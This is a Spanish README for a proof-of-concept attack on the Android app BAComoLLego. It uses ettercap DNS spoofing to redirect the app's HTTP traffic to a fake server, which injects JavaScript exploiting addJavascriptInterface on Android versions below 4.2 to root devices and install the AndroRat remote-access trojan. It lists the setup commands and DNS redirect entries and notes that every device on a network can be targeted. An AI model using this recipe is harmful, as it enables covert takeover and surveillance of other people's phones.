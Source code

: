 # Prueba de Concepto de explotación de BAComoLLego  

El POC infecta con AndroRat a cualquier dispositivo en la red corriendo una versión de Android menor a 4.2 que tenga instalado BAComoLLego. 
Cuando una victima busca alguna dirección con la app, se realiza DNS spoofing para cambiar el servidor por uno falso corriendo localmente. Dado que la aplicación se comunica por HTTP, el servidor falso puede inyectar Javascript malicioso a la respuesta de las direcciones consultadas, explotando la vulnerabilidad de 'addJavascriptInterface' para correr cualquier comando y así rooteando el dispositivo e instalando el malware malicioso. 

## Requerimientos ##

```
sudo apt-get install ettercap-graphical
```

## Configuración ##

Agregar a /etc/ettercap/etter.dns las lineas:

```
*.buenosaires.gob.ar A IP
malware-test.no-ip.info A IP
```
Correr server AndroRat:

```
sudo java -jar AndroRat.jar
```

Finalmente servidor falso con:

```
sudo python FakeComoLLegoServer.py /IP_TARGET/ /IP_GATEWAY/ /IP_LOCAL_HOST/
```

Se puede configurar IP_TARGET como // para atacar a todos los dispositivos en la red.

